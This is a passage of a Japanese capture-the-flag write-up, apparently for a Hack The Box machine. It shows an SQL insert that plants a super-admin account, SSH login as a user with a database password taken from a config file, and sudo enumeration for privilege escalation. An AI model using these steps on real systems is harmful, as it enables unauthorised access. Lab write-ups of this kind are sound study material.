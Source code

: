 ユーザー名/パスワードで新しい、adminアカウントを作る。
newadmin/password

```bash
INSERT INTO user (username, username_canonical, email, email_canonical, password, salt, roles, status, registration_date, active, locked, enabled, expired, credentials_expired)
VALUES (
    'newadmin', 
    'newadmin', 
    'newadmin@example.com', 
    'newadmin@example.com', 
    '$2a$12$R1JrMN6jvOxR6ezlMjS3QOHMLSz82PV3AhJqLfGL1/t2n5KeqlYv2', 
    '', 
    'a:1:{i:0;s:16:"ROLE_SUPER_ADMIN";}', 
    1, 
    NOW(), 
    1,
    0,  -- 'locked' フィールド：0はロックされていないことを意味します
    1,  -- 'enabled' フィールド：1は有効であることを意味します
    0,  -- 'expired' フィールド：0は期限切れでないことを意味します
    0   -- 'credentials_expired' フィールド：0は資格情報が期限切れでないことを意味します
);

```

しかし、これはうまく動かず、一つの答えは、`$_configuration['db_password'] = '03F6lY3uXAP2bkW8';`で得られたパスワードでsshにmtzとしてログインすることだった、
```bash
└──╼ [★]$ ssh mtz@10.129.254.229
The authenticity of host '10.129.254.229 (10.129.254.229)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.254.229' (ED25519) to the list of known hosts.
mtz@10.129.254.229's password: 

```



---

# Privilege Escalation
いつもの
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```
